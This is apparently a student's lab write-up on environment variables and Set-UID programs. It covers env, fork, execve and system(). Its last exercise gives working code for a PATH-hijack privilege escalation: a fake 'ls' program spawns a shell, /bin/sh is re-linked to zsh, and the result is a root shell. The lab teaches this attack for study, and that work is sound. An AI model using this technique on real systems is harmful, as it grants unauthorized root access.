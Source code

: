 # Lab 6: Environment Variable and Set-UID Program Lab

Objective: impart an understanding how environment variables influence program and system behaviors. The lab aims to elucidate the mechanisms through which environment variables affect program behaviors, enhancing students' comprehension and enabling them to develop more secure and robust software systems.

## Exercise 1: Manipulating Environment Variables

Manipulating Environment Variables

Command to print out the environment variables:
```bash
env
```
![env](/Lab6/exercise1/img/1.png)


Command to printing out some particular environment variables:
```bash
env | grep PWD
```
![part env](/Lab6/exercise1/img/2.png)

Setting  enviroment variables:
```bash
export MYVAR='Yachay'
env | grep MYVAR
```
Unsetting enviroment variables:
```bash
unset MYVAR
env | grep MYVAR
```
![set unset env](/Lab6/exercise1/img/3.png)


## Exercise 2: Passing Environment Variables from Parent Process to Child Process

**Step 1** 

Compiling `/Lab6/exercise2/myprintenv.c` and saving **child process** info on `/Lab6/exercise2/child`

![child](/Lab6/exercise2/img/1.png)

**Step 2** 

Changing:
```c
  switch(childPid = fork()) {
    case 0:  /* child process */
      printenv();          
      exit(0);
    default:  /* parent process */
      // printenv();       
      exit(0);
```
for:
```c
  switch(childPid = fork()) {
    case 0:  /* child process */
      // printenv();          
      exit(0);
    default:  /* parent process */
      printenv();       
      exit(0);
```

Compiling `/Lab6/exercise2/myprintenv.c` and saving **parent process** info on `/Lab6/exercise2/parent`

![child](/Lab6/exercise2/img/2.png)

**Step 3** 

Comparing the difference of these two files using:

```bash
diff child parent
```
![diff](/Lab6/exercise2/img/3.png)

We can observe that the files are the same, indicating that the environment variables are identical for both the parent process and the child process.

It is important to note that if we use a different name for the executable file when compiling **Step 2**, we will observe differences when executing **Step 3** on the last line `_=./a.out`. However, this differences is solely  the name of the executable file. 

## Exercise 3: Environment Variables and `execve()`

**Step 1*

Compiling `/Lab6/exercise2/myenv.c` on `/Lab6/exercise2/myenv`:

![execve](/Lab6/exercise3/img/1.png)

**Step 2**

Compiling `/Lab6/exercise2/myenv.c` on `/Lab6/exercise2/myenv1` but changing:
```c
  execve("/usr/bin/env", argv, NULL);  
```
for:
```c
execve("/usr/bin/env", argv, environ);
```
![execve](/Lab6/exercise3/img/2.png)

**Step 3** Observations:

By passing the environ variable as the third argument to the execve function instead of **NULL**, as done in **Step 1**, the child process **inherits** the environment variables from the parent process. This implies that any modifications made to the environment variables in the parent process would be reflected in the child process as well.

When environment variables are inherited from the parent process to the child process, it introduces a potential attack surface for malicious actors. If sensitive information such as passwords or other credentials are stored in environment variables within the parent process, these could be inadvertently leaked to the child process and potentially accessed by unauthorized entities.

## Exercise 4: Environment Variables and `system()`

In this task, we study how environment variables are affected when a new program is executed via  the `system()` function. This function is used to execute a command, but unlike `execve()`, which directly execute a command, `system()` actually executes "`/bin/sh -c command`", i.e., it executes `/bin/sh`, and asks the shell to execute the command.

The implementation of the `system()` function its on `/Lab6/exercise4/system_env.c`.

![system](/Lab6/exercise4/img/1.png)

## Exercise 5: Environment Variable and `Set-UID` Programs

**Step 1**

Generate `/Lab6/exercise5/setuid.c` file.

```c
#include <stdio.h>
#include <stdlib.h>

extern char **environ;

int main()
{
    int i = 0;
    while (environ[i] != NULL) {
        printf("%s\n", environ[i]);
        i++;
}
}
```
**Step 2**

Compiling `setuid.c` on `/Lab6/exercise5/foo`, changing its ownership to root, and makeing it a Set-UID program.
```bash
sudo chown root foo
sudo chmod 4755 foo
```
![uid](/Lab6/exercise5/img/1.png)

**Step 3**

Cheking some environment variables:
![uid](/Lab6/exercise5/img/2.png)

Using **Step 2** executable to chek the environment variables:
![uid](/Lab6/exercise5/img/3.png)

When a Set-UID program is executed, it runs with the permissions of the program's owner (in this case, root), rather than the user who executed it (seed). Despite this change in user identity, the environment variables are still inherited from the parent process (seed) instead of using root environment variables.

## Exercise 6:  The PATH Environment Variable and `Set-UID` Programs

We compile `/Lab6/exercise6/pathuid.c` on `/Lab6/exercise6/puid`, change its owner to root, and make it a Set-UID program.

![lsuid](/Lab6/exercise6/img/1.png)

We can get this Set-UID program to run our own malicious code. Instead of /bin/ls we can run the bash with root privilege.

**Set up**

First we need a new script `/Lab6/exercise6/ls` that will contain our malicious code, this code will be compiled from `/Lab6/exercise6/exploit.c`

```c
#include <stdio.h>
#include <stdlib.h>

int main(){
	printf("Malicious ls program is called\n");
	system("/bin/zsh");
	return 0;
}
```

Next, we need to add our path to our current environment variables using:

```bash
export PATH=<Path where our ls script is>:$PATH
```

Since we are working on ubuntu 20.04 we need to change our default bash:
```bash
sudo ln -sf /bin/zsh /bin/sh
```

Now we just execute our `/Lab6/exercise6/puid` file (that calls our ls script) and we can get into the bash with root privileges.

![lsuid](/Lab6/exercise6/img/2.png)